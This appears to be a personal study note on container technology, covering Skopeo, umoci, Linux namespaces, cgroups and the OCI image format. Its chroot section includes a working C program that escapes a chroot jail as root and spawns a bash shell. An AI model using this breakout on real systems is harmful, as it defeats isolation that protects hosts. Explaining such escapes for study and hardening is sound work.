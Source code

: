 ## Overview
Containers are isolated groups of processes running on a single host, which fulfill a set of “common” features. A container is built using layers, each layer represents some additional functionality. 


## Skopeo
Skopeo inspects a container image, it can perform operations which consist of:
- Copying an image from and to various storage mechanisms. For example you can copy images from one registry to another, without requiring privilege.
- Inspecting a remote image showing its properties including its layers, without requiring you to pull the image to the host.
- Deleting an image from an image repository.
- Syncing an external image repository to an internal registry for air-gapped deployments.
- When required by the repository, skopeo can pass the appropriate credentials and certificates for authentication.

## Umoci
umoci modifies Open Container images

## Chroot
Lets you change the root to a new root, however you can pop out of the environment with a process running as the root user since you can create a new chroot and traverse relatively out of it 
```
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
    mkdir(".out", 0755);
    chroot(".out");
    chdir("../../../../../");
    chroot(".");
    return execl("/bin/bash", "-i", NULL);
}
```

## Linux namespaces
wrap certain global system resources in an abstraction layer. This makes it appear like the processes within a namespace have their own isolated instance of the resource

seven distinct namespaces implemented: 
- mnt
- pid
- net
- ipc
- uts
- user
- cgroup




## [Cgroups](https://man7.org/linux/man-pages/man7/cgroups.7.html) 
short for "control group," is a Linux kernel feature that allows the management of system resources and sets limits for groups of processes. It provides a way to group processes and manage their resource usage, such as CPU, memory, and I/O bandwidth, among others.

- A cgroup is a collection of processes that are bound to a set of
       limits or parameters defined via the cgroup filesystem.

- A subsystem is a kernel component that modifies the behavior of
       the processes in a cgroup.  Various subsystems have been
       implemented, making it possible to do things such as limiting the
       amount of CPU time and memory available to a cgroup, accounting
       for the CPU time used by a cgroup, and freezing and resuming
       execution of the processes in a cgroup.  Subsystems are sometimes
       also known as resource controllers (or simply, controllers).

- The cgroups for a controller are arranged in a hierarchy.  This
       hierarchy is defined by creating, removing, and renaming
       subdirectories within the cgroup filesystem.  At each level of
       the hierarchy, attributes (e.g., limits) can be defined.  The
       limits, control, and accounting provided by cgroups generally
       have effect throughout the subhierarchy underneath the cgroup
       where the attributes are defined.  Thus, for example, the limits
       placed on a cgroup at a higher level in the hierarchy cannot be
       exceeded by descendant cgroups.

## Open Container Initiative 
An open format for containers and an alternative to Docker. You can read more about the format here: https://ravichaganti.com/blog/2022-10-28-understanding-container-images-oci-image-specification/
